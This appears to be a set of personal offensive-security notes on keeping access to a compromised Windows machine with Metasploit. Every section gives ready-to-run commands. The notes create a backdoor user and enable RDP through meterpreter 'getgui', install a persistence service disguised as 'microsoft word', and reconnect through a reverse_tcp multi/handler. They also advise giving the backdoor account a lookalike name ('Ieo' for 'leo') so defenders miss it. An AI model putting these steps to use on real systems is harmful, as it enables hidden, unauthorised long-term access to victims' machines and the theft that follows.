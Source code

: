 

# **Persistence via RDP:**

Create a new user in meterpreter:

	run getgui -e -u asem -p Hacker_123321

Or use the MSF Module:

	post/windows/manage/enable_rdp

To create a user and enable RDP on the target with a username and password of your choice...... COOL#



Then connect using #xfreerdp 

##### Make sure to name the new user added to blend in the other users so it's not sus.
E.g. if there's a user called 
- "leo"  with small L
We create our backdoor user named: 
- "Ieo"  with capital i

these two names are different 😲😲😲


##Just make sure the password is long and contain numbers and symbols for the password policy.....


# **<mark style="background: #FF5582A6;">MSF</mark> Module:**

	search platform:windows persistence

This creates a service that will provide us with access all the time to the target system...

	exploit/windows/local/persistence_service

1. Choose a normal service name: `set SERVICE_NAME microsoft word`
2. Don't forget to set the session..

If all session are killed we can still gain access like this:

1. `use multi/handler`
2. Choose the same payload we used on the Persistence service Module above: `set PAYLOAD windows/meterpreter/reverse_tcp` 
3. Choose the same `LHOST` and `LPORT` as the Persistence Service Module.
4. Then just hit run or exploit and we get a session...... Because the service is running on the target and always listening.

